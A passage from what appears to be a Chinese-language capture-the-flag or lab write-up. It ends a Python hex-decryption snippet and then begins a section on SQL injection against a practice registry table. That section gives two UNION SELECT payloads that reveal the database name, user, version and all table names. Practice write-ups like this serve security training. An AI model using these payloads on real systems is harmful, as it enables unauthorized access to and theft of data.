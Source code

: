 ```python

    return decrypted_str

if __name__ == "__main__":
    # 输入一个十六进制字符串
    hex_input = "<hex string>"

    try:
        decrypted_output = hex_string_decrypt(hex_input)
        print("Decrypted string:", decrypted_output)
    except ValueError as e:
        print("Error:", e)
```
## 5.中级户籍表 sql注入

![alt text](assets/writeup/image-28.png)


**查看当前用户、版本号、数据库名**

`Amy Jones' union select 1,database(),user(),version() #`

![alt text](assets/writeup/image-29.png)

**注入查看当前数据库所有的表名**

`Amy Jones' union select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema=database())#`

![alt text](assets/writeup/image-30.png)
